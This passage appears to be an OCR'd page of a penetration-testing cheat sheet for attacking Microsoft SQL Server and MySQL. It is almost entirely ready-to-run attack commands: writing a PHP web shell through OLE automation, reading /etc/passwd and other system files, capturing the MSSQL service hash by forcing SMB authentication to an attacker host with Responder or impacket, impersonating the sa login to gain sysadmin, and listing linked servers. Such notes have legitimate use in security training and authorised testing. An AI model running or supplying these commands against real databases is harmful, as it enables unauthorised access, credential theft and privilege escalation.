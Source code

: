 ```
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
### Read Local Files in MSSQL
```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
### MySQL - Read Local Files in MySQL
```
select LOAD_FILE("/etc/passwd");
```
### Capture MSSQL Service Hash
XP_DIRTREE Hash Stealing
```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
XP_SUBDIRS Hash Stealing
```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
XP_SUBDIRS Hash Stealing with Responder
```
sudo responder -I tun0
```
XP_SUBDIRS Hash Stealing with impacket
```
sudo impacket-smbserver share ./ -smb2support
```
### Impersonate Existing Users with MSSQL
Identify Users that We Can Impersonate
```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
Verifying our Current User and Role
```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
Impersonating the SA User
```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
### Communicate with Other Databases with MSSQL
Identify linked Servers in MSSQL
```
1> SELECT srvname, isremote FROM sysservers
2> GO
```
```
```